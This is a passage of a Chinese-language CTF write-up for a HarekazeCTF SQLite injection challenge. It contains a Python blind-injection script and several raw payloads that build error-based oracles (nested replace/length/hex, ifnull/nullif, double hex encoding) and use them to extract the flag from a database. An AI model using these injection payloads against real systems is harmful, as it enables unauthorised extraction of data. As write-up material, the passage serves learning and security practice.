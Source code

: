 接下来就是判断每一位字符了：

```
# フラグをゲット!

# 这里是已知 flag 格式为 HarekazeCTF`{` ，我们对其 hex 编码，接下来只需要盲注后面的字符
res = binascii.hexlify(b'HarekazeCTF`{`').decode().upper()
for i in range(len(res), l):
  for x in '0123456789ABCDEF':
    t = '||'.join(c if c in '0123456789' else table[c] for c in res + x)
    r = requests.post(URL, data=`{`
      'id': f'abs(case(replace(length(replace(hex((select(flag)from(flag))),`{`t`}`,trim(0,0))),`{`l`}`,trim(0,0)))when(trim(0,0))then(0)else(0x8000000000000000)end)'
    `}`)
    if b'An error occurred' in r.content:
      res += x
      break
  print(f'[+] flag (`{`i`}`/`{`l`}`): `{`res`}`')
  i += 1
print('[+] flag:', binascii.unhexlify(res).decode())
```

`trim(0,0)` 实际上就是空，`l` 是 flag 的长度，`t` 是我们每次进行测试的字符串（如果有字符被确定了，就会被连接 `||` 进 `t` ）。

实际上，发送的请求是这样的：

```
abs(case(
replace(
length(replace(hex((select(flag)from(flag))),test_data,''))    # 这里进行替换和获取长度
,flag_length,'')                                               # 第二个 replace 判断长度是否变化
)when('')then(0)else(0x8000000000000000)end)
```

如果长度变化了就会报错，那么就是测试的字符是有的，被添加进 `res` ，再十六进制转字符就 getflag 了。

<a class="reference-link" name="%E8%A7%A3%E6%B3%95%E4%BA%8C%20%E5%8F%8C%E9%87%8D%20hex%20%E7%BC%96%E7%A0%81%E5%88%A0%E9%99%A4%E5%AD%97%E6%AF%8D"></a>**解法二 双重 hex 编码删除字母**

解法一是费了很大劲去构造出 abcdef 的，但我们可以直接双重编码，仅用数字来进行判断。

```
abs(ifnull(nullif(length((SELECT(flag)from(flag))),$LENGTH$),0x8000000000000000))
```

`ifnull` 返回两个参数中不为 0 的数，`nullif` 两个参数相同返回 NULL ，不同返回第一个参数。

换言之，以上 payload 在做的就是遍历 $LENGTH$ 找到与 flag 长度相等的数。

得到了长度，我们同样面临构造特数字符的问题，这里用了双重 hex 编码，编码后 flag 的长度即上面的 4 倍。

4 倍长度的 hex 纯数字编码会被用科学计数法表示，但我们可以用上面用到的 `||` 来进行连接，由这我们可以得到 payload：

```
abs(ifnull(nullif(max(hex(hex((SELECT(flag)from(flag)))),$NUMBER$),$NUMBER$),0x8000000000000000))
```

所以便可遍历 4 倍长度的 $NUMBER$ ，利用 `max` 得到双重编码后的 flag ，双重解码后即可。
